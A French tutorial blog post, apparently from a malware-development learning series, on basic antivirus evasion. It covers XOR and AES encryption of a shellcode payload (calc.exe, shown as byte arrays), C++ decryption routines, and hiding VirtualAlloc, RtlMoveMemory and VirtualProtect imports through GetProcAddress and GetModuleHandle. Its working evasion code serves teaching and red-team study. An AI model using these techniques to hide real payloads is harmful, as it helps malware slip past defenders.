

# Les bases de l'obfuscation

Nous avons créé ensemble dans le précédent post un exécutable utilisant l'API Windows pour exécuter un shellcode, super.

Le petit souci, c'est que les fonctions importées apparaitront directement dans la table des imports (pour plus d'informations, se référer à la troisième entrée de ma série d'article sur le format de fichier PE). Et les produits antiviraux ne sont pas bêtes ; pour ce qui touche à l'analyse statique, un exécutable qui importe le quatuor de fonctions utilisées dans le précédent post et qui inclut son payload "tel quel" va faire s'illuminer n'importe quelle console de SOC comme un sapin de noël. Dans ce post, nous allons donc visualiser les concepts basiques qu'un acteur malicieux pourrait utiliser afin d'obfusquer les signes les plus évidents de la dangerosité de son programme.

>Avertissement ; j'écris "concepts basiques" volontairement. Le but étant de montrer ici qu'il est possible d'obfusquer une fonction pour éviter qu'elle apparaisse lors d'une analyse statique, et de chiffrer un potentiel payload. En réalité, ça n'est pas avec un coup de moulinette XOR/AES et un simple appel au duo GetProcAddress/GetModuleHandle que vous allez contourner Windows Defender en l'an 2022. Mais en tant qu'introduction ? Ca fera l'affaire. Plus tard, j'aborderai peut-être des concepts plus avancés et surtout modernes, comme l'API Hashing utilisé par des acteurs malicieux de type APT, par exemple.

## Inclure un payload chiffré

Afin d'éviter qu'une solution anti-virale détecte statiquement notre payload non obfusqué, nous pouvons au préalable le chiffrer, l'inclure dans notre programme, puis le déchiffrer lors de l'exécution de notre programme. J'utiliserai, a des fins de démonstration, deux algorithmes basiques, XOR et AES, et un payload simpliste se contentant de simplement faire apparaître le logiciel de calculatrice sous Windows (ce bon vieux calc.exe)


### XOR

La première étape consiste, pour commencer, à chiffrer ledit payload. Commencons par le XOR-er en dehors de ce programme, en utilisant ce petit programme en python (écrit par "Renzo", l'instructeur du cours Sektor7 mentionné dans l'introduction de cette série d'articles), qui chiffre notre payload en utilisant la chaîne de caractères "korielzeth" :

```python
import sys

KEY = "korielzeth"

def xor(data, key):
	l = len(key)
	output_str = ""

	for i in range(len(data)):
		current = data[i]
		current_key = key[i%len(key)]
		output_str += chr(ord(current) ^ ord(current_key))
	
	return output_str

def printC(ciphertext):
	print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')

try:
    plaintext = open(sys.argv[1], "r").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = xor(plaintext, KEY)

printC(ciphertext)
```

Une fois notre payload passé à la moulinette de ce programme, celui-ci ressemble à :

```assembly
 0x91, 0x31, 0xf0, 0x81, 0x93, 0x9a, 0xa5, 0x74, 0x6b, 0x65, 0x24, 0x34, 0x2c, 0x29, 0x21, 0x34, 0x35, 0x3a, 0x54, 0xa6, 0xe, 0x2d, 0xee, 0x37, 0xd, 0x31, 0xf8, 0x37, 0x7b, 0x3a, 0xee, 0x26, 0x4b, 0x2d, 0xee, 0x17, 0x3d, 0x31, 0x7c, 0xd2, 0x29, 0x38, 0x28, 0x45, 0xa2, 0x2d, 0x54, 0xa5, 0xc1, 0x45, 0x12, 0x19, 0x61, 0x5e, 0x45, 0x35, 0xaa, 0xac, 0x68, 0x24, 0x6c, 0xb8, 0x91, 0x88, 0x31, 0x33, 0x34, 0x3c, 0xe0, 0x37, 0x45, 0xee, 0x2f, 0x45, 0x3b, 0x64, 0xb3, 0xf9, 0xe5, 0xfc, 0x6b, 0x65, 0x65, 0x2d, 0xe8, 0xb9, 0x7, 0x2, 0x2b, 0x73, 0xb5, 0x24, 0xe0, 0x2d, 0x7d, 0x21, 0xe6, 0x39, 0x53, 0x2c, 0x62, 0xa2, 0x86, 0x22, 0x23, 0x9a, 0xac, 0x24, 0xe6, 0x4d, 0xfb, 0x2d, 0x62, 0xa4, 0x28, 0x45, 0xa2, 0x2d, 0x54, 0xa5, 0xc1, 0x38, 0xb2, 0xac, 0x6e, 0x33, 0x64, 0xb5, 0x53, 0x85, 0x10, 0x94, 0x21, 0x7a, 0x3f, 0x41, 0x6b, 0x37, 0x5c, 0xa5, 0x1e, 0xbd, 0x3d, 0x21, 0xe6, 0x39, 0x57, 0x2c, 0x62, 0xa2, 0x3, 0x35, 0xe0, 0x69, 0x2d, 0x21, 0xe6, 0x39, 0x6f, 0x2c, 0x62, 0xa2, 0x24, 0xff, 0x6f, 0xed, 0x2d, 0x64, 0xbd, 0x38, 0x2b, 0x24, 0x3b, 0x2c, 0x3c, 0x2e, 0x2a, 0x3d, 0x24, 0x3c, 0x2c, 0x23, 0x3b, 0xe6, 0x8f, 0x52, 0x24, 0x26, 0x94, 0x85, 0x3d, 0x24, 0x34, 0x23, 0x3b, 0xee, 0x71, 0x9b, 0x32, 0x8b, 0x94, 0x9a, 0x38, 0x2d, 0xd7, 0x78, 0x73, 0x65, 0x63, 0x72, 0x65, 0x74, 0x6b, 0x2d, 0xe8, 0xe8, 0x6c, 0x78, 0x73, 0x65, 0x22, 0xc8, 0x54, 0xff, 0x4, 0xe2, 0x9a, 0xb0, 0xd6, 0x89, 0xc6, 0xc7, 0x35, 0x33, 0xdf, 0xd2, 0xfe, 0xd8, 0xf8, 0x9a, 0xb8, 0x31, 0xf0, 0xa1, 0x4b, 0x4e, 0x63, 0x8, 0x61, 0xe5, 0x9e, 0x85, 0x18, 0x7c, 0xc8, 0x22, 0x70, 0x0, 0xa, 0x1e, 0x6b, 0x3c, 0x24, 0xec, 0xb7, 0x86, 0xa6, 0x6, 0x2, 0x1e, 0x6, 0x5a, 0xe, 0x1d, 0x0, 0x65
```

La fonction visant à déchiffrer le payload une fois l'exécution commencée, plutôt simple, ressemble quand à elle à ceci :


```cpp
void xordecrypt(LPWSTR payload, size_t payloadlen, LPWSTR clé, size_t clélen) {

	int j = 0;

	for (int i = 0; i < payloadlen; i++) {
		if (j == clélen - 1) j = 0;
		payload[i] = payload[i] ^ clé[j];
		j++;
	}

}
```

Où payloadlen et clélen correspondent à la longueur (via l'utilisation de sizeof() ) de notre payload et de notre clé.

### AES

Même logique que précédemment. On prend notre payload original, le chiffrons (ici avec l'algorithme AES) avant de créer une fonction se chargeant de le déchiffrer lors de l'exécution du programme.

Voilà à quoi ressemble le programme (toujours écrit par Renzo) se chargeant du chiffrement AES. Ce dernier génère une clé aléatoire de 16 bytes, utilisée ensuite pour chiffrer le payload :

```python
import sys
from Crypto.Cipher import AES
from os import urandom
import hashlib

KEY = urandom(16)

def pad(s):
	return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def aesenc(plaintext, key):

	k = hashlib.sha256(key).digest()
	iv = 16 * '\x00'
	plaintext = pad(plaintext)
	cipher = AES.new(k, AES.MODE_CBC, iv)

	return cipher.encrypt(bytes(plaintext))


try:
    plaintext = open(sys.argv[1], "r").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = aesenc(plaintext, KEY)
print('AESkey[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in KEY) + ' };')
print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```

Une fois notre payload passé à la moulinette de ce programme, celui-ci ressemble à :

```assembly
0x4, 0x88, 0xc, 0x78, 0x28, 0xed, 0xf1, 0xe6, 0xe0, 0x7d, 0xef, 0x1b, 0x6c, 0xe4, 0x24, 0x9b, 0xa8, 0x6, 0x9c, 0x74, 0x4c, 0x19, 0xe7, 0xd0, 0x11, 0xed, 0xb4, 0xce, 0x22, 0x49, 0x18, 0x16, 0x98, 0x2f, 0x98, 0xcc, 0xb5, 0x54, 0xf9, 0x8a, 0x71, 0x4b, 0x20, 0xb1, 0x8c, 0x55, 0xe2, 0x46, 0x30, 0x14, 0xe, 0xac, 0xee, 0x65, 0xfb, 0x6a, 0x42, 0xd1, 0xd4, 0x93, 0xb2, 0x33, 0x42, 0x2f, 0xde, 0x44, 0x8d, 0x2e, 0xa8, 0x45, 0x58, 0xcf, 0xbf, 0xc9, 0x73, 0x20, 0xce, 0x91, 0x8c, 0x54, 0x25, 0x94, 0xa0, 0x8d, 0x0, 0xf3, 0xdd, 0x89, 0xe8, 0xf3, 0xab, 0xc9, 0x8b, 0x9e, 0x5c, 0x4b, 0x58, 0x59, 0x88, 0x79, 0x2e, 0xe9, 0xce, 0xa6, 0x9c, 0xad, 0xac, 0x8d, 0x5c, 0xb2, 0x7d, 0xc0, 0x6, 0x53, 0xdf, 0xd7, 0xb6, 0xb3, 0x3e, 0x36, 0x2b, 0x4d, 0xd4, 0x9b, 0x8c, 0x81, 0xb5, 0xf0, 0x13, 0x6f, 0x79, 0xed, 0xb3, 0x8f, 0x7b, 0x72, 0xdf, 0xdb, 0x20, 0x21, 0xa2, 0xe0, 0x7a, 0xd, 0xc1, 0xf1, 0x1e, 0x9e, 0x26, 0xb, 0x8e, 0xfe, 0x24, 0x90, 0x27, 0x6a, 0x58, 0x5f, 0x32, 0xb9, 0x10, 0x9, 0xe, 0x79, 0x29, 0x3e, 0xa7, 0x60, 0x69, 0x93, 0x27, 0x57, 0x8a, 0xae, 0x8a, 0x2a, 0x20, 0xe5, 0xb1, 0x50, 0x4d, 0x2f, 0xce, 0xf1, 0xd9, 0x12, 0xb5, 0xf1, 0x3a, 0x49, 0x8d, 0x58, 0x70, 0x4, 0xf0, 0x55, 0x18, 0x12, 0xd0, 0x6f, 0xcd, 0x39, 0x6, 0x8, 0x62, 0x38, 0x52, 0x74, 0x1, 0xa1, 0xfe, 0x34, 0x57, 0x56, 0xd4, 0xf2, 0x90, 0xa9, 0xa, 0xbf, 0x37, 0x58, 0x30, 0x9, 0x28, 0x4f, 0x19, 0xb5, 0xc2, 0xa9, 0x46, 0x8d, 0xc0, 0x65, 0x39, 0x47, 0x2e, 0x61, 0x80, 0x27, 0x5b, 0x42, 0x6d, 0xb4, 0xff, 0x7, 0xc3, 0x19, 0xe5, 0x43, 0x4d, 0xe3, 0xac, 0xe9, 0x24, 0x3b, 0xf5, 0xc0, 0x15, 0xf1, 0xee, 0x49, 0x2a, 0x93, 0x7, 0xf6, 0x5, 0x7b, 0xd1, 0x94, 0x3e, 0x99, 0x34, 0x41, 0xdc, 0xe3, 0x63, 0xc6, 0x2a, 0x6a, 0xde, 0x16, 0x73, 0xfc, 0xe7, 0xf3, 0x6b, 0xba
```

Et la clé générée est :

```assembly
0x2e, 0xd3, 0xe6, 0xda, 0x40, 0x55, 0x52, 0x33, 0x38, 0xc5, 0xbe, 0x14, 0x2c, 0xd6, 0xf9, 0x9a
```

La fonction en C++ que nous incluerons dans notre programme et visant à déchiffrer le payload une fois l'exécution commencée, quand à elle, ressemble à ça. 


```cpp
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}
```

Les noms des fonctions sont somme toutes explicites : une handle est crée vers un contexte cryptographique, puis un hash SHA256 est généré et une Clé (objet Windows) est dérivée en se basant sur ledit hash et notre clé (la chaîne de caractère aléatoire générée lors de l'encryption de ce programme). Le payload est ensuite déchiffré en utilisant cette Clé, puis les différentes handles vers les objects créés par la fonction (contexte, hash,et Clé) sont ensuite supprimés.

>Si vous êtes curieux concernant l'utilisation des fonctions cryptographiques de l'API Windows, vous pouvez aller jeter un oeil au deuxième post concernant mon journal de dévelopement d'une PoC de ransomware

## L'obfuscation de nos appels de fonction

Comme mentionné dans l'introduction de cet article, le premier indicateur de dangerosité d'un exécutable, analysé en premier par les divers solutions anti-virales, qu'elles soient inclues dans les systèmes d'exploitation, est la table des imports dudit exécutable.

Prenons comme exemple l'exécutable généré dans l'article, et analysons sa table d'imports avec l'utilitaire PEBear. L'on y voit clairement l'import des fonctions VirtualAlloc, RtlMoveMemory, et VirtualProtect:


 
 Il existe un moyen somme toute basique d'appeller ces fonctions dans notre programme sans que celles-ci apparaissent dans la table d'import. Pour ce faire, nous allons avoir recours au tandem de fonctions GetProcAddress et GetModuleHandle. Voyons comment ces dernières sont définies dans la MSDN.

### GetModuleHandle

La fonction GetModuleHandle se charge de nous retourner une handle vers le module que nous lui spécifions. Un module est un fichier PE (exe ou dll) qui compose un processus donné.

```cpp
HMODULE GetModuleHandleW(
  [in, optional] LPCWSTR lpModuleName
);
```

### GetProcAddress

La fonction GetProcAddress se charge quand à elle de nous retourner l'adresse de la fonction spécifiée dans lpProcName, depuis la handle vers une DLL spécifiée par hModule (ladite handle ayant été obtenue précédemment par GetModuleHandle) 

```cpp
 FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

### Application pratique

Vous l'aurez donc compris, le but de cette technique est de récupérer une handle vers une dll en particulier (disons kernel32.dll) via GetModuleHandle, puis d'utiliser GetProcAddress pour faire pointer l'adresse de la fonction que nous désirons utiliser (disons GetFileType) vers une fonction que nous nommerons de manière appropriée (disons bpGetFileType). Une fois bpGetFileType déclarée en tant que fonction dans notre programme avec les paramètres appropriés (se référer à la MSDN si nécéessaire), il nous suffira de l'appeller à chaque fois que nous voulons en réalité utiliser la fonction GetFileType.

Et enfin, en pratique, voilà donc ce que cela donne dans notre code :

```cpp

// Les déclarations préalable de nos fonctions, conformément à la MSDN

LPVOID (WINAPI* pVirtAll)(LPVOID lpAddress,SIZE_T dwSize,DWORD  flAllocationType,DWORD  flProtect);
VOID (WINAPI* pRtlMM)(VOID UNALIGNED* Destination,const VOID UNALIGNED* Source,SIZE_T Length);
BOOL (WINAPI* pVirtProt)(LPVOID lpAddress,SIZE_T dwSize,DWORD  flNewProtect,PDWORD lpflOldProtect);

//Le pointage des adresses renvoyés par GetProcAddress à nos fonctions créés ci-dessus

//pVirtAll= GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualAlloc");
auto const pVirtAll = reinterpret_cast<LPVOID(WINAPI*)(LPVOID,SIZE_T,DWORD,DWORD)>(GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualAlloc"));

//pRtlMM = GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "RtlMoveMemory");
auto const pRtlMM = reinterpret_cast<VOID(WINAPI*)(VOID UNALIGNED*,const VOID UNALIGNED*,SIZE_T)>(GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "RtlMoveMemory"));

//pVirtProt = GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualProtect");
auto const pVirtProt = reinterpret_cast<BOOL(WINAPI*)(LPVOID,SIZE_T,DWORD,PDWORD)>(GetProcAddress(GetModuleHandle(L"Kernel32.dll"), "VirtualProtect"));
```

> Notes : le cours de S7 est basé sur des samples compilés avec MSVC à la barbare via un .bat. Si vous utilisez Visual Studio et tentez de réutiliser les samples tels quels (les lignes que j'ai commentées), le compilo et ses options par défaut vont vous hurler dessus. Vous pouvez soit désactiver la logique qui transforme les warnings en error et qui vous empêche de compiler, soit faire casts. J'ai inclus les deux pour l'exemple.

Après compilation, il nous suffit une nouvelle fois d'ouvrir cet exécutable avec PEBear et d'accéder à la table de ses imports :



En observant la listes des fonctions importées de kernel32.dll, on s'aperçoit que VirtualAlloc, RtlMoveMemory, et VirtualProtect n'y sont pas présentes : l'import de ces dernières n'est donc pas détectable statiquement.


>Notes : Windows Defender a l'air relativement partial à l'utilisation de certaines fonctions provenant de son API. J'ai récemment pu concevoir un programme chiffrant à des fins de démonstrations des fichiers de manière récursive (cf la série d'articles sur la PoC de ransomware) et se permettant même un changement de clé de registre et une connection à une IP considérée comme dangereuse, et Windows Defender n'en avait apparemment pas grand chose à faire. Bon.


Nous avons donc dans cet article pu faire un tour basique des mécanismes de chiffrement de payloads et obfuscation d'appels à fonction. Le prochain article, quand à lui, portera sur l'évidage de binaires pré-existants afin d'y inclure des charges malicieuses. A la prochaine !
